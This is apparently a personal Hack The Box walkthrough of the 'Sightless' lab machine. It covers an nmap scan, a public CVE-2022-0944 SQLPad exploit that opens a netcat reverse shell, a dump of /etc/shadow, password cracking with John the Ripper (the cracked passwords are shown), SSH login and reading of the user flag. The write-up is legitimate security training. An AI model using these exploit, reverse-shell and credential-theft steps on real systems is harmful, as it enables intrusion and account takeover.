 ![](Pasted%20image%2020241020223114.png)
###### [link](https://app.hackthebox.com/machines/Sightless)
# Recon

- Nmap scan

> nmap -sCSV -T4 $ip
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-20 01:36 AEDT
Nmap scan report for 10.10.11.32 (10.10.11.32)
Host is up (0.017s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp
| fingerprint-strings: 
|   GenericLines: 
|     220 ProFTPD Server (sightless.htb FTP Server) [::ffff:10.10.11.32]
|     Invalid command: try being more creative
|_    Invalid command: try being more creative
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol2.0)
| ssh-hostkey: 
|   256 c9:6e:3b:8f:c6:03:29:05:e5:a0:ca:00:90:c9:5c:52 (ECDSA)
|_  256 9b:de:3a:27:77:3b:1b:e1:19:5f:16:11:be:70:e0:56 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://sightless.htb/
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port21-TCP:V=7.94SVN%I=7%D=10/20%Time=6713C3F1%P=x86_64-pc-linux-gnu%r(
SF:GenericLines,A0,"220\x20ProFTPD\x20Server\x20\(sightless\.htb\x20FTP\x2
SF:0Server\)\x20\[::ffff:10\.10\.11\.32\]\r\n500\x20Invalid\x20command:\x2
SF:0try\x20being\x20more\x20creative\r\n500\x20Invalid\x20command:\x20try\
SF:x20being\x20more\x20creative\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 69.11 seconds
```

- checking http://sightless.htb
- found http://sqlpad.sightless.htb/

# Vulnerability Discovery

- found vulnerability in sqlpad - [here](https://huntr.com/bounties/46630727-d923-4444-a421-537ecd63e7fb)
- found more info about the vulnerability - [here](https://github.com/shhrew/CVE-2022-0944?tab=readme-ov-file)

# Exploitation

> python3 main.py http://sqlpad.sightless.htb/ 10.10.16.30 9999            
```
[┤] Trying to bind to 10.10.16.30 on port 9999: Trying 10.10.16.30
Exception in thread Thread-1 (start_listener):
Traceback (most recent call last):
  File "/usr/lib/python3.12/threading.py", line 1075, in _bootstrap_inner
    self.run()
  File "/usr/lib/python3.12/threading.py", line 1012, in run
    self._target(*self._args, **self._kwargs)
  File "/home/lnxuser/ctfs/CVE-2022-0944/main.py", line 72, in start_listener
    listener = listen(lport, bindaddr=lhost)
               ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/home/lnxuser/ctfs/CVE-2022-0944/venv/lib/python3.12/site-packages/pwnlib/tubes/listen.py", line 108, in __init__
    listen_sock.bind(self.sockaddr)
OSError: [Errno 98] Address already in use

```

>  nc -vlnp 9999
```
listening on [any] 9999 ...
connect to [10.10.16.30] from (UNKNOWN) [10.10.11.32] 37106
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```

# Post-Exploitation

- checking /etc/shadow file

> cat /etc/shadow
```
root:$6$jn8fwk6LVJ9IYw30$qwtrfWTITUro8fEJbReUc7nXyx2wwJsnYdZYm9nMQDHP8SYm33uisO9gZ20LGaepC3ch6Bb2z/lEpBM90Ra4b.:19858:0:99999:7:::
daemon:*:19051:0:99999:7:::
bin:*:19051:0:99999:7:::
sys:*:19051:0:99999:7:::
sync:*:19051:0:99999:7:::
games:*:19051:0:99999:7:::
man:*:19051:0:99999:7:::
lp:*:19051:0:99999:7:::
mail:*:19051:0:99999:7:::
news:*:19051:0:99999:7:::
uucp:*:19051:0:99999:7:::
proxy:*:19051:0:99999:7:::
www-data:*:19051:0:99999:7:::
backup:*:19051:0:99999:7:::
list:*:19051:0:99999:7:::
irc:*:19051:0:99999:7:::
gnats:*:19051:0:99999:7:::
nobody:*:19051:0:99999:7:::
_apt:*:19051:0:99999:7:::
node:!:19053:0:99999:7:::
michael:$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:19860:0:99999:7:::
```

- seems like user flags can be cracked by john the ripper
- store michael and root line in hash.txt and use john

> john hash.txt -w=/usr/share/wordlists/rockyou.txt    
```
Warning: detected hash type "sha512crypt", but the string is also recognized as "HMAC-SHA256"
Use the "--format=HMAC-SHA256" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (sha512crypt, crypt(3) $6$ [SHA512 512/512 AVX512BW 8x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
blindside        (root)     
insaneclownposse (michael)     
2g 0:00:00:06 DONE (2024-10-20 03:21) 0.3322g/s 10205p/s 17009c/s 17009C/s XIOMARA..sinead1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

# CTUF 

- after ssh-ing michael I found the user flag

> ssh michael@10.10.11.32 
```        
michael@10.10.11.32's password: 
Last login: Sat Oct 19 16:24:49 2024 from 10.10.16.31
michael@sightless:~$ ls
exploit.py  linpease.sh  new  README  result.txt  user.txt
michael@sightless:~$ cat user.txt 
4e365dc2a4a1350b73e96c3e232fe9e2
```

# Privilege Escalation

- TBD

# Personal Learnings

- After exploitation look for hashes that can be cracked by john for ssh access to user.